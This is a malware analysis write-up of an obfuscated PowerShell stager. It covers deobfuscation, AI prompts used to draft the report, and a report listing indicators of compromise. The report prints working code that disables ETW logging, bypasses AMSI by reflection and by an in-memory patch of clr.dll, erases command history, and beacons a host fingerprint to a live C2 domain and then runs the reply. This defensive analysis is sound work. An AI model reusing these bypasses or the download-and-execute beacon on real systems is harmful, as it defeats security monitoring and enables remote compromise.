

# Source

* Malware Bazaar: https://bazaar.abuse.ch/sample/b1ca1ce60e4b62fe2770d40aae943c1a3b7d1963ecaf5010e2e88e5ad1aaf822/
* File type: Powershell
* Size: ~4.8 MB

# Analysis

## Obfuscation

The Powershell script employed various obfuscation techniques including dead/junk code, long arithmetic chains (`((41850 + 775) + 343)`), building strings from variables containing `[char]` codes (`[char][int]$po... + [char][int]$dq...`), nested encoding (decimal array -> base64 string), reflection (calling methods through variables).

## Debugging

None of my existing deobfuscation utilities were able to fully deobfuscate the file, even after extensive debugging with Claude Opus 4.8 (which pretty much recommended a rewrite of Powershell)

So, I loaded up the Powershell script in VS Code for debugging. My goal was to find the final payload.

### Second Stage Payload

Line 17373 contained a large array of decimal numbers, soon followed by a `-bxor` on line 17377. I put a breakpoint on line 17377.

```
(($tzlawZytj4VltYFpm6GnkrXKPwar0e -as [Type])::($YUzEKpMfKmNNgwgoVTCQO5HBT04Mk0)((($ezLUwairkCohZFyOj69XEzU5CQ3iDi -as [Type])::$bxlKeOS02BPaIM1HFy0LPUCsNBg2re.$PhjBOhyJc1g8ZOkrZUKecxrU95VuiD($(for($ZmVkKPMp0560iQopYRNLImEDtmXGHF=0;$ZmVkKPMp0560iQopYRNLImEDtmXGHF-lt$dJrbDaapVbKAjzJE4FWgndrFZicwKs.$8mOlfKKPRzvJoPwPZPphpYCT7OwDLl;){for($0C2dUpLvWziewCy5V40cnktLuIJvbz=0;$0C2dUpLvWziewCy5V40cnktLuIJvbz-lt$FfWmTxpWAAVoZxJyRtiee5UL3InMSL.$8mOlfKKPRzvJoPwPZPphpYCT7OwDLl;$0C2dUpLvWziewCy5V40cnktLuIJvbz++){$dJrbDaapVbKAjzJE4FWgndrFZicwKs[$ZmVkKPMp0560iQopYRNLImEDtmXGHF]-bxor$FfWmTxpWAAVoZxJyRtiee5UL3InMSL[$0C2dUpLvWziewCy5V40cnktLuIJvbz];$ZmVkKPMp0560iQopYRNLImEDtmXGHF++;if($ZmVkKPMp0560iQopYRNLImEDtmXGHF-ge$dJrbDaapVbKAjzJE4FWgndrFZicwKs.$8mOlfKKPRzvJoPwPZPphpYCT7OwDLl){$0C2dUpLvWziewCy5V40cnktLuIJvbz=$FfWmTxpWAAVoZxJyRtiee5UL3InMSL.$8mOlfKKPRzvJoPwPZPphpYCT7OwDLl}}}))),[ref]$null,[ref]$null)).($XMfGjulIAydMvO9ffphbTu70JppgdK)().($waMJf0TPn7iBSazLTRVJ0ueNqV2EIg)()
```

When the breakpoint hit, these variables resolved to their true values. The beautified version is shown below:

```
(System.Management.Automation.Language.Parser::ParseInput(
    (
        System.Text.Encoding::UTF8.GetString(
            $(
                for ($i = 0; $i -lt $b64_decoded_payload.length; )
                {
                    for ($j = 0; $j -lt $key.length; $j++)
                    {
                        $b64_decoded_payload[$i] -bxor$key[$j];
                        $i++;
                        if ($i -ge $b64_decoded_payload.length)
                        {
                            $j = $key.length 
                        }
                    }
                }
            )
        )
    ), [ref]$null, [ref]$null)
).GetScriptBlock().Invoke()
```

I used VS Code's debug console to write the payload to disk:

```
$plaintext = ($ezLUwairkCohZFyOj69XEzU5CQ3iDi -as [Type])::$bxlKeOS02BPaIM1HFy0LPUCsNBg2re.$PhjBOhyJc1g8ZOkrZUKecxrU95VuiD($(for($ZmVkKPMp0560iQopYRNLImEDtmXGHF=0;$ZmVkKPMp0560iQopYRNLImEDtmXGHF-lt$dJrbDaapVbKAjzJE4FWgndrFZicwKs.$8mOlfKKPRzvJoPwPZPphpYCT7OwDLl;){for($0C2dUpLvWziewCy5V40cnktLuIJvbz=0;$0C2dUpLvWziewCy5V40cnktLuIJvbz-lt$FfWmTxpWAAVoZxJyRtiee5UL3InMSL.$8mOlfKKPRzvJoPwPZPphpYCT7OwDLl;$0C2dUpLvWziewCy5V40cnktLuIJvbz++){$dJrbDaapVbKAjzJE4FWgndrFZicwKs[$ZmVkKPMp0560iQopYRNLImEDtmXGHF]-bxor$FfWmTxpWAAVoZxJyRtiee5UL3InMSL[$0C2dUpLvWziewCy5V40cnktLuIJvbz];$ZmVkKPMp0560iQopYRNLImEDtmXGHF++;if($ZmVkKPMp0560iQopYRNLImEDtmXGHF-ge$dJrbDaapVbKAjzJE4FWgndrFZicwKs.$8mOlfKKPRzvJoPwPZPphpYCT7OwDLl){$0C2dUpLvWziewCy5V40cnktLuIJvbz=$FfWmTxpWAAVoZxJyRtiee5UL3InMSL.$8mOlfKKPRzvJoPwPZPphpYCT7OwDLl}}}))

$plaintext | Out-File C:\Users\Ashura\Desktop\payload.ps1
```

## Second Stage Obfuscation

This stage included various kinds of obfuscation including control-flow flattening (CFF), string method (like `.Replace`, `.Insert`) chaining and concatenation (`[string]::Concat`, `[string]::Join`) and string arrays.

## Deobfuscation

Utilities: https://github.com/nikhilh-20/re_tools/tree/main/powershell

```
> .\PsExpand-Semicolons.ps1 -InputFile C:\Users\Ashura\Desktop\payload.ps1 -OutputFile C:\Users\Ashura\Desktop\payload_pass1.ps1
{"output_path":"C:\\Users\\Ashura\\Desktop\\payload_pass1.ps1","output_bytes":215732,"input_bytes":213480}

> .\PsUnflatten-Switch.ps1 -InputFile C:\Users\Ashura\Desktop\payload_pass1.ps1 -OutputFile C:\Users\Ashura\Desktop\payload_pass2.ps1
{"loops_flattened":1,"loops_skipped":0,"changed":1,"input_bytes":215732,"details":[{"Flattened":true,"DispatcherVar":"eois8_wx75u","TotalCases":27,"StatesVisited":21,"StepsSimulated":58,"StatementsEmitted":31,"DeadCases":["10","18","26","14","22","6"],"Start":16}],"output_bytes":213131,"output_path":"C:\\Users\\Ashura\\Desktop\\payload_pass2.ps1","loops_found":1}

> .\PsFold-MethodChains.ps1 -InputFile C:\Users\Ashura\Desktop\payload_pass2.ps1 -OutputFile C:\Users\Ashura\Desktop\payload_pass3.ps1
{"input_bytes":213131,"resolved":696,"by_reason":"5x method name not resolvable, 1x method not allowlisted: SetValue, 6x receiver not constant, 5x static call (out of scope), 2x method not allowlisted: GetString, 2x method not allowlisted: GetBytes","output_path":"C:\\Users\\Ashura\\Desktop\\payload_pass3.ps1","output_bytes":22000,"skipped":21}

> .\PsFold-StaticStringCalls.ps1 -InputFile C:\Users\Ashura\Desktop\payload_pass3.ps1 -OutputFile C:\Users\Ashura\Desktop\payload_pass4.ps1
{"input_bytes":22000,"resolved":12,"by_reason":"5x target type not resolvable, 1x target type not allowlisted: system.net.globalproxyselection, 2x target type not allowlisted: system.convert","output_path":"C:\\Users\\Ashura\\Desktop\\payload_pass4.ps1","output_bytes":21646,"skipped":8}

> .\PsFold-MethodChains.ps1 -InputFile C:\Users\Ashura\Desktop\payload_pass4.ps1 -OutputFile C:\Users\Ashura\Desktop\payload_pass5.ps1
{"input_bytes":21646,"resolved":12,"by_reason":"4x method name not resolvable, 1x method not allowlisted: SetValue, 2x receiver not constant, 5x static call (out of scope), 2x method not allowlisted: GetString, 3x method not allowlisted: GetBytes","output_path":"C:\\Users\\Ashura\\Desktop\\payload_pass5.ps1","output_bytes":17267,"skipped":17}

> .\PsFold-Strings.ps1 -InputFile C:\Users\Ashura\Desktop\payload_pass5.ps1 -OutputFile C:\Users\Ashura\Desktop\payload_pass6.ps1
{"changed":17,"output_path":"C:\\Users\\Ashura\\Desktop\\payload_pass6.ps1","output_bytes":16558,"input_bytes":17267}

> .\PsFold-MethodChains.ps1 -InputFile C:\Users\Ashura\Desktop\payload_pass6.ps1 -OutputFile C:\Users\Ashura\Desktop\payload_pass7.ps1
{"input_bytes":16558,"resolved":14,"by_reason":"1x method not allowlisted: ReadToEnd, 2x method not allowlisted: SetValue, 1x method name not resolvable, 5x static call (out of scope), 2x method not allowlisted: GetString, 4x method not allowlisted: GetBytes","output_path":"C:\\Users\\Ashura\\Desktop\\payload_pass7.ps1","output_bytes":12591,"skipped":15}

> .\PsFold-ArrayJoins.ps1 -InputFile C:\Users\Ashura\Desktop\payload_pass7.ps1 -OutputFile C:\Users\Ashura\Desktop\payload_pass8.ps1
{"changed":7,"output_path":"C:\\Users\\Ashura\\Desktop\\payload_pass8.ps1","output_bytes":12453,"input_bytes":12591}

> .\PsFold-MethodChains.ps1 -InputFile C:\Users\Ashura\Desktop\payload_pass8.ps1 -OutputFile C:\Users\Ashura\Desktop\payload_pass9.ps1
{"input_bytes":12453,"resolved":7,"by_reason":"1x method not allowlisted: ReadToEnd, 2x method not allowlisted: SetValue, 3x method not allowlisted: GetString, 5x static call (out of scope), 4x method not allowlisted: GetBytes","output_path":"C:\\Users\\Ashura\\Desktop\\payload_pass9.ps1","output_bytes":9125,"skipped":15}

> .\PsPropagate-Constants.ps1 -InputFile C:\Users\Ashura\Desktop\payload_pass9.ps1 -OutputFile C:\Users\Ashura\Desktop\payload_pass10.ps1
{"input_bytes":9125,"output_path":"C:\\Users\\Ashura\\Desktop\\payload_pass10.ps1","substituted_reads":5,"changed":11,"output_bytes":9077,"folded_assignments":6}

> .\PsRemove-DeadCode.ps1 -InputFile C:\Users\Ashura\Desktop\payload_pass10.ps1 -OutputFile C:\Users\Ashura\Desktop\payload_pass11.ps1
{"changed":6,"output_path":"C:\\Users\\Ashura\\Desktop\\payload_pass11.ps1","output_bytes":8996,"by_reason":"6x dead store","input_bytes":9077}

> .\PsResolve-Reflection.ps1 -InputFile C:\Users\Ashura\Desktop\payload_pass11.ps1 -OutputFile C:\Users\Ashura\Desktop\payload_pass12.ps1
{"output_path":"C:\\Users\\Ashura\\Desktop\\payload_pass12.ps1","input_bytes":8996,"types_resolved":13,"members_inlined":28,"changed":41,"output_bytes":8700}
```

Finally, the only residual obfuscation were variables declared with script scope. The `PsRemove-DeadCode` utility could not definitely prove that it was dead code, so they were not removed.

## Functionality

### Prompt

```
@C:\Users\Ashura\Desktop\report.md It should contain the below sections:

1. Executive summary
2. Details - avoid variable names granularity. retain behavioral specifics like created folder names, C2 contact, etc.
3. IOCs

Reference the source code when stating functionality. Like:
```<source_code>```
<functionality>

Use multiple Haiku sub-agents to confirm your findings.
```

### Flowchart Prompt

```
Based on @C:\Users\Ashura\Desktop\report.md, can a Mermaid flowchart be written into FLOW.mmd? Keep the flowchart in natural language. Avoid variable name granularity. You can retain created folder names and contacted C2
```

### Flowchart



### Report

#### Executive Summary

This script is a multi-stage PowerShell implant stager. Upon execution it immediately neutralizes two Windows security mechanisms — the Antimalware Scan Interface (AMSI) and Event Tracing for Windows (ETW) — to operate unseen by both antivirus engines and logging infrastructure. Command history recording is also disabled to eliminate forensic artefacts.

The script then executes an embedded payload that is encrypted, GZip-compressed, and Base64-encoded within the script body itself. This payload is a second, independent AMSI-neutralization routine: it enumerates the current process's own memory, locates the pages backing `clr.dll` (the .NET CLR hosted inside PowerShell), and overwrites the ASCII string `AmsiScanBuffer` with null bytes wherever it appears in that module's mapped memory. This is mechanically distinct from — and layered on top of — the `amsiInitFailed` reflection field patch used earlier in the outer stager, indicating deliberate defense-in-depth AMSI evasion rather than reliance on a single bypass technique. No additional files, folders, or network/C2 activity originate from this component.

Immediately after this embedded payload executes, the script beacons out to a remote command-and-control (C2) server at `sellmeyourbiz[.]com`, transmitting a unique fingerprint of the infected host (hostname, domain, username, process ID, hardware UUID). The C2 server responds with a PowerShell payload that is decrypted on the fly and executed in memory — leaving no file on disk.

#### Details

##### Anti-Analysis Setup

Before any malicious payload runs, the script disables three security instrumentation mechanisms in sequence.

###### ETW Suppression

```powershell
$([Reflection.Assembly])::LoadWithPartialName($('System.Core')).GetType($('System.Diagnostics.Eventing.EventProvider')).GetField($('m_enabled'),$('NonPublic,Static')).SetValue($([Ref]).Assembly.GetType($('System.Management.Automation.Tracing.PSEtwLogProvider')).GetField($('etwProvider'),$('NonPublic,Static')).GetValue($null),0)
```

Uses .NET reflection to reach into the PowerShell ETW provider (`System.Management.Automation.Tracing.PSEtwLogProvider`) and zero out the private `m_enabled` field on the underlying `System.Diagnostics.Eventing.EventProvider` instance. The effect is that PowerShell stops emitting ETW events for the remainder of the session — script block logging, module logging, and transcription events are all suppressed at the provider level, defeating solutions that rely on Windows event channels (e.g., Event ID 4104).

###### AMSI Bypass

```powershell
$([Ref]).Assembly.GetType(('System.Management.Automation.AmsiUtils')).GetField(('amsiInitFailed'),$('NonPublic,Static')).SetValue($null,$true)
```

Uses reflection to set the private static field `amsiInitFailed` on the internal `AmsiUtils` class to `$true`. The PowerShell AMSI integration checks this flag before submitting content to the scanner; if it is true, AMSI initialization is considered to have failed and all subsequent scanning is skipped. This renders AMSI-based antivirus inspection inert for the rest of the session.

The value of this field (`$true`, which equals integer `1`) is later reused as a parameter to derive the Stage 1 decryption key, tying the bypass directly to the cryptographic scheme.

###### Command History Erasure

```powershell
Set-PSReadlineOption -HistorySaveStyle SaveNothing
```

Prevents `PSReadLine` from persisting any commands typed or executed in the session to disk, removing a common forensic trail used by incident responders.

##### Obfuscation

The script employs several layers of obfuscation to hinder static analysis:

- **Invoke-Expression alias:** `Invoke-Expression` is aliased to a random-looking name `qZrDCTWRHbVlpGc`, so direct string searches for `iex` or `Invoke-Expression` in the execution path miss the actual call.
- **String wrapping:** All sensitive strings are wrapped in `$('...')` sub-expression syntax (e.g., `$('NonPublic,Static')`) to defeat simple signature matching on literal strings.
- **Two-layer payload protection:** The embedded payload is XOR-encrypted, then GZip-compressed, then Base64-encoded — requiring three reversals before the content is readable.

##### Embedded Encrypted Payload

```powershell
qZrDCTWRHbVlpGc ($([IO.StreamReader])::new($([IO.Compression.GZipStream])::new($([IO.MemoryStream])::new($([Convert])::FromBase64String($(xor_encrypt_decrypt 'STRzSRUQCQ...[truncated]' $('d') $([int](...amsiInitFailed...GetValue($null))) $('TQHAevwqPoDcydrzSgRh')))),$([IO.Compression.CompressionMode])::Decompress)).ReadToEnd())
```

The decryption pipeline operates as follows:

1. **XOR decryption key:** Constructed from `[BitConverter]::GetBytes(1)` (the integer value of the AMSI `amsiInitFailed` flag, cast to `[int]`) concatenated with the UTF-8 bytes of the hardcoded string `TQHAevwqPoDcydrzSgRh` — producing a 24-byte repeating key. The use of the live AMSI field value means the key can only be correctly derived after the AMSI bypass succeeds; if AMSI is already initialized normally (field = `$false` = 0), the decryption produces garbage.

2. **XOR cipher:** Standard repeating-key XOR is applied byte-by-byte over the Base64-decoded ciphertext.

3. **Decompression:** The XOR output is then GZip-decompressed via `IO.Compression.GZipStream`.

4. **Execution:** The resulting plaintext (a PowerShell script) is read with `IO.StreamReader` and immediately executed in the current session via the aliased `Invoke-Expression`. Nothing is written to disk.

The decrypted payload is a dedicated AMSI-neutralization routine that runs before the C2 beacon phase, described below.

###### Dynamic P/Invoke via Reflection.Emit

```powershell
$UZ5IlA2Ca7tB=New-Object System.Reflection.AssemblyName("Win32")
$otS_ihY3eL8x=[AppDomain]::CurrentDomain.DefineDynamicAssembly($UZ5IlA2Ca7tB,[Reflection.Emit.AssemblyBuilderAccess]::Run)
$nA6ywgf7=$otS_ihY3eL8x.DefineDynamicModule("Win32",$False)
...
$iu5CtfvI=$nA6ywgf7.DefineType("Win32.Kernel32","Public, Class")
$pK13pX91fi=[Runtime.InteropServices.DllImportAttribute].GetConstructor(@([String]))
...
$UnnQzAG_v99a0=$iu5CtfvI.DefinePInvokeMethod("VirtualProtect","kernel32.dll", ...)
```

Rather than declaring P/Invoke signatures statically (e.g. via `Add-Type` with a literal `DllImport` block, which is easy to signature-match), the script builds an in-memory assembly at runtime using `System.Reflection.Emit`. It defines two structs — `MEMORY_INFO_BASIC` and `SYSTEM_INFO` — matching the native Win32 layouts, and a `Kernel32` class exposing `VirtualProtect`, `GetCurrentProcess`, `VirtualQuery`, `GetSystemInfo` (from `kernel32.dll`), `GetMappedFileName` (from `psapi.dll`), `ReadProcessMemory`, and `WriteProcessMemory`. No literal `DllImport` string is present anywhere in the script body — the API surface is assembled entirely through reflection, which is itself an evasion technique against static analysis and signature-based detection.

###### Committed/Readable Memory-Page Filter

```powershell
function drMPwrT5e0m62{
    param ($Zbvbj4vS1C52UdP,$bEHKS9EjooC)
    return ((($Zbvbj4vS1C52UdP -band 2) -eq 2 -or ($Zbvbj4vS1C52UdP -band 4) -eq 4 -or ($Zbvbj4vS1C52UdP -band 64) -eq 64 -or ($Zbvbj4vS1C52UdP -band 32) -eq 32) -and ($Zbvbj4vS1C52UdP -band 256) -ne 256 -and ($bEHKS9EjooC -band 4096) -eq 4096)
}
```

Given a page-protection value and a memory-state value, this returns true only for committed memory (`4096` = `MEM_COMMIT`) whose protection is one of `PAGE_READONLY`(2), `PAGE_READWRITE`(4), `PAGE_EXECUTE_READWRITE`(64), or `PAGE_EXECUTE_READ`(32), while excluding `PAGE_GUARD`(256) pages. This predicate is used to skip over reserved, free, guard, or no-access regions and scan only pages that are actually readable.

###### Full Address-Space Enumeration

```powershell
$KNGE3RNkadl=[Win32.Kernel32]::GetCurrentProcess()
$ZUylJ_h1Ju=New-Object Win32.SYSTEM_INFO
[void][Win32.Kernel32]::GetSystemInfo([ref]$ZUylJ_h1Ju)
$ifoAAxu5=@()
$HIhGKB_D5SrWX=[IntPtr]::Zero
while ($HIhGKB_D5SrWX.ToInt64() -lt $ZUylJ_h1Ju.lpMaximumApplicationAddress.ToInt64()){
    $SZT3rdCuYIG=New-Object Win32.MEMORY_INFO_BASIC
    if ([Win32.Kernel32]::VirtualQuery($HIhGKB_D5SrWX,[ref]$SZT3rdCuYIG,[System.Runtime.InteropServices.Marshal]::SizeOf($SZT3rdCuYIG))){
        $ifoAAxu5+=$SZT3rdCuYIG
    }
    $HIhGKB_D5SrWX=New-Object IntPtr($SZT3rdCuYIG.BaseAddress.ToInt64() + $SZT3rdCuYIG.RegionSize.ToInt64())
}
```

Retrieves `lpMaximumApplicationAddress` via `GetSystemInfo`, then walks the entire virtual address space of the current process from address zero upward using `VirtualQuery`, advancing past each region by its `BaseAddress + RegionSize` until the maximum address is reached. Every region descriptor encountered is collected for the next stage.

###### Targeting `clr.dll` in Memory

```powershell
$jJy5m5nkFp8dtfBQ=New-Object System.Text.StringBuilder 260
if ([Win32.Kernel32]::GetMappedFileName($KNGE3RNkadl,$Y9exfrfnwEYn.BaseAddress,$jJy5m5nkFp8dtfBQ,260) -gt 0){
    $LefQ2jHmBQhER=$jJy5m5nkFp8dtfBQ.ToString()
    if ($LefQ2jHmBQhER.EndsWith("clr.dll",[StringComparison]::InvariantCultureIgnoreCase)){
```

For each region that passes the readability filter, `GetMappedFileName` resolves the backing file for that memory-mapped region. Only regions backed by `clr.dll` — the .NET Common Language Runtime loaded inside the PowerShell host process — are carried forward into the patch routine.

###### `AmsiScanBuffer` String Patch

```powershell
$YoCwQCXog=[System.Text.Encoding]::UTF8.GetBytes('AmsiScanBuffer')
...
$UWkby5jaq0PX=New-Object byte[] $Y9exfrfnwEYn.RegionSize.ToInt64()
[void][Win32.Kernel32]::ReadProcessMemory($KNGE3RNkadl,$Y9exfrfnwEYn.BaseAddress,$UWkby5jaq0PX,$UWkby5jaq0PX.Length,[ref]$MtRAmZXhZc5)
for ($M5QnB2JJS=0;$M5QnB2JJS -lt ($MtRAmZXhZc5 - $YoCwQCXog.Length);$M5QnB2JJS++){
    ... <byte-by-byte comparison against "AmsiScanBuffer"> ...
    if ($QXZxcQvj){
        $SvOxKejG8cB=0
        if (($Y9exfrfnwEYn.Protect -band 4) -ne 4){
            [void][Win32.Kernel32]::VirtualProtect($Y9exfrfnwEYn.BaseAddress,$UWkby5jaq0PX.Length,64,[ref]$SvOxKejG8cB)
        }
        $BDVaRsh7=New-Object byte[] $YoCwQCXog.Length
        $y5s4zd9L9ERMZ=0
        [void][Win32.Kernel32]::WriteProcessMemory($KNGE3RNkadl,[IntPtr]::Add($Y9exfrfnwEYn.BaseAddress,$M5QnB2JJS),$BDVaRsh7,$BDVaRsh7.Length,[ref]$y5s4zd9L9ERMZ)
        0++
        if (($Y9exfrfnwEYn.Protect -band 4) -ne 4){
            [void][Win32.Kernel32]::VirtualProtect($Y9exfrfnwEYn.BaseAddress,$UWkby5jaq0PX.Length,$Y9exfrfnwEYn.Protect,[ref]$SvOxKejG8cB)
        }
    }
}
```

For each qualifying `clr.dll` region, the full region is read into a managed byte array via `ReadProcessMemory`, then byte-by-byte scanned for the literal ASCII sequence `AmsiScanBuffer` (14 bytes). On a match: if the page is not already writable, `VirtualProtect` temporarily flips it to `PAGE_EXECUTE_READWRITE`(64); a 14-byte all-zero buffer is written over the matched location via `WriteProcessMemory`, directly overwriting the string in the running process's own memory (`GetCurrentProcess()` — no separate target process is involved); the original page protection is then restored. Nulling this string breaks the name-based lookup that .NET's AMSI integration relies on, defeating AMSI scanning for the remainder of the session — independently of, and redundantly with, the `amsiInitFailed` field patch already applied by the outer stager.

No files, folders, registry keys, or network connections are created by this component — its entire effect is the in-memory string patch described above.

##### C2 Beacon and Remote Payload Execution

###### Host Fingerprinting

```powershell
"$env:COMPUTERNAME|" + ((Get-WmiObject -Namespace root\cimv2 -Class Win32_ComputerSystem).Domain + "|$env:USERNAME|$PID|" + "qcSEv3lfHEfn1zYiKBG8DojOvbqvZ0nzSPQcaeh3JFWtjEMSE2F6xYaGTLZdTSCQ" + "|" + (Get-WmiObject -Class Win32_ComputerSystemProduct | Select-Object -ExpandProperty UUID))
```

Before contacting the C2, the script assembles a pipe-delimited fingerprint string containing six fields:

| Position | Field | Source |
|----------|-------|--------|
| 1 | Hostname | `$env:COMPUTERNAME` |
| 2 | Domain | WMI `Win32_ComputerSystem.Domain` |
| 3 | Username | `$env:USERNAME` |
| 4 | Process ID | `$PID` |
| 5 | Campaign token | Hardcoded: `qcSEv3lfHEfn1zYiKBG8DojOvbqvZ0nzSPQcaeh3JFWtjEMSE2F6xYaGTLZdTSCQ` |
| 6 | Hardware UUID | WMI `Win32_ComputerSystemProduct.UUID` |

###### Fingerprint Encryption and Beacon

```powershell
xor ("$env:COMPUTERNAME|...|UUID") "encrypt" "tVQi4Fv8TxEG6VfHctOZmXQt0q3C1O6w"
```

The fingerprint string is XOR-encrypted using the 32-byte UTF-8 key `tVQi4Fv8TxEG6VfHctOZmXQt0q3C1O6w`, then Base64-encoded with forward slashes replaced by underscores (`/` → `_`) to produce a URL-safe path component. This encrypted blob is appended to the C2 base URL:

```
https://sellmeyourbiz[.]com/customers/<xor-base64url-fingerprint>
```

###### HTTP Request

```powershell
Invoke-WebRequest -Uri ("https://sellmeyourbiz.com/customers/" + ...) -UseBasicParsing -Headers @{
    "User-Agent" = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/534.36 (KHTML, like Gecko) Chrome/95.4.4476.124 Safari/537.36"
}
```

A single HTTPS GET request is issued. The custom User-Agent mimics an outdated Chrome 95 browser on Windows 10 x64. TLS 1.0, 1.1, and 1.2 are explicitly enabled via `[Net.ServicePointManager]::SecurityProtocol`, allowing the connection to succeed even if the C2 uses older TLS configurations.

###### Proxy Fallback

```powershell
catch {
    $proxy = [System.Net.GlobalProxySelection]::GetEmptyWebProxy()
    iex (xor ((Invoke-WebRequest ... -Proxy $proxy ...).Content) "decrypt" ...)
}
```

If the initial connection fails (e.g., due to a proxy intercepting the connection and blocking it), the catch block retries using `[System.Net.GlobalProxySelection]::GetEmptyWebProxy()`, which forces a direct connection bypassing any system-configured proxy. This is a deliberate attempt to circumvent proxy-based network controls.

###### Response Decryption and Execution

```powershell
iex (xor ((...WebRequest...).Content) "decrypt" "tVQi4Fv8TxEG6VfHctOZmXQt0q3C1O6w")
```

The response body is XOR-decrypted with the same 32-byte key used to encrypt the fingerprint. The decrypted content — a PowerShell script returned by the C2 operator — is immediately executed in memory via `Invoke-Expression`. No file is written to disk. The C2 operator has full control over what is executed at this point.

#### IOCs

* Network

| Type | Value | Context |
|------|-------|---------|
| Domain | `sellmeyourbiz[.]com` | C2 server |
| URL pattern | `hxxps://sellmeyourbiz[.]com/customers/<base64url>` | Beacon URL — path is XOR-encrypted host fingerprint |
| User-Agent | `Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/534.36 (KHTML, like Gecko) Chrome/95.4.4476.124 Safari/537.36` | Used in all C2 HTTP requests |

* Campaign / Configuration Artefacts

| Type | Value | Context |
|------|-------|---------|
| Campaign token | `qcSEv3lfHEfn1zYiKBG8DojOvbqvZ0nzSPQcaeh3JFWtjEMSE2F6xYaGTLZdTSCQ` | Hardcoded in fingerprint string; unique to this deployment |
| XOR key (C2) | `tVQi4Fv8TxEG6VfHctOZmXQt0q3C1O6w` | Used to encrypt the outbound fingerprint and decrypt the C2 response |
| XOR key (embedded payload) | `TQHAevwqPoDcydrzSgRh` | Used (with integer prefix) to decrypt the embedded payload |

## Background — Dynamic P/Invoke via Reflection.Emit

### What P/Invoke is

P/Invoke ("Platform Invoke") is the mechanism .NET uses to call functions in native Windows DLLs (e.g. `kernel32.dll`) from managed code such as PowerShell, which runs on the .NET CLR. PowerShell has no built-in way to call raw Win32 APIs like `VirtualProtect` or `ReadProcessMemory` — P/Invoke is the bridge that exposes them.

### What normal (static) P/Invoke looks like

The conventional way to do this in a PowerShell script is `Add-Type`, embedding a C# snippet directly in the script body:

```powershell
Add-Type @"
using System;
using System.Runtime.InteropServices;
public class Native {
    [DllImport("kernel32.dll")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
```

This pattern is so common in malware that the literal strings `Add-Type`, `DllImport`, and function/DLL names appearing together are a well-known static-detection signature. `Add-Type` also invokes the C# compiler (`csc.exe`) at runtime to build the snippet, which is itself a detectable side effect (child process creation, compiler temp artifacts).

### What this payload does instead

The embedded payload builds the equivalent P/Invoke declarations at runtime using `Reflection.Emit`, which constructs a new in-memory .NET assembly programmatically — type by type, method by method — with no compiler invocation and no literal `DllImport`/`Add-Type` text anywhere in the script:

```powershell
$UZ5IlA2Ca7tB=New-Object System.Reflection.AssemblyName("Win32")
$otS_ihY3eL8x=[AppDomain]::CurrentDomain.DefineDynamicAssembly($UZ5IlA2Ca7tB,[Reflection.Emit.AssemblyBuilderAccess]::Run)
$nA6ywgf7=$otS_ihY3eL8x.DefineDynamicModule("Win32",$False)
$iu5CtfvI=$nA6ywgf7.DefineType("Win32.Kernel32","Public, Class")
$pK13pX91fi=[Runtime.InteropServices.DllImportAttribute].GetConstructor(@([String]))
$rWOsUQJC7hHkO=[Runtime.InteropServices.DllImportAttribute].GetField("SetLastError")
$VQH6MZuc8UHaEFs2=New-Object Reflection.Emit.CustomAttributeBuilder($pK13pX91fi,"kernel32.dll",[Reflection.FieldInfo[]]@($rWOsUQJC7hHkO),@($True))
$UnnQzAG_v99a0=$iu5CtfvI.DefinePInvokeMethod("VirtualProtect","kernel32.dll", ...)
$UnnQzAG_v99a0.SetCustomAttribute($VQH6MZuc8UHaEFs2)
```

Step by step:
- `DefineDynamicAssembly` — creates a new, empty .NET assembly (named `Win32`) that exists only in memory and is never written to disk.
- `DefineDynamicModule` — creates a module (container) inside that assembly.
- `DefineType("Win32.Kernel32", "Public, Class")` — creates a new class, equivalent to declaring `public class Kernel32 { }` in C#.
- `GetConstructor`/`GetField` on `DllImportAttribute`, followed by `CustomAttributeBuilder` — builds the equivalent of the `[DllImport("kernel32.dll")]` attribute manually, via reflection metadata objects, instead of writing it as source text.
- `DefinePInvokeMethod("VirtualProtect", "kernel32.dll", ...)` — the step that actually binds a callable method named `VirtualProtect` to the native function of the same name inside `kernel32.dll`. This is functionally identical to the `[DllImport]` C# declaration shown above, but it never exists as literal source text.

By the end of this sequence, the script has a fully working `[Win32.Kernel32]::VirtualProtect(...)` — and equivalents for `GetCurrentProcess`, `VirtualQuery`, `GetSystemInfo`, `GetMappedFileName`, `ReadProcessMemory`, and `WriteProcessMemory` — that behaves exactly like a normal P/Invoke call.

### Why this technique was used

1. No literal signature to scan for. Static detection (AV signatures, AMSI content scanning, YARA rules) commonly keys on the literal text `Add-Type`, `DllImport("kernel32.dll")`, or specific function names appearing together in source form. Reflection.Emit avoids all of this literal text by constructing the declarations from type/method metadata objects instead of parsing them from a source string.
2. No compiler invocation. `Add-Type` compiles its embedded C# via `csc.exe` at runtime — a detectable side effect. `Reflection.Emit` builds .NET IL (bytecode) directly, without spawning a compiler process.

Functionally, this is equivalent to "declare some Win32 API functions so PowerShell can call them" — identical in outcome to the common `Add-Type`/`DllImport` pattern, but achieved through a more roundabout path specifically to evade detections built around the common form.


```python

```
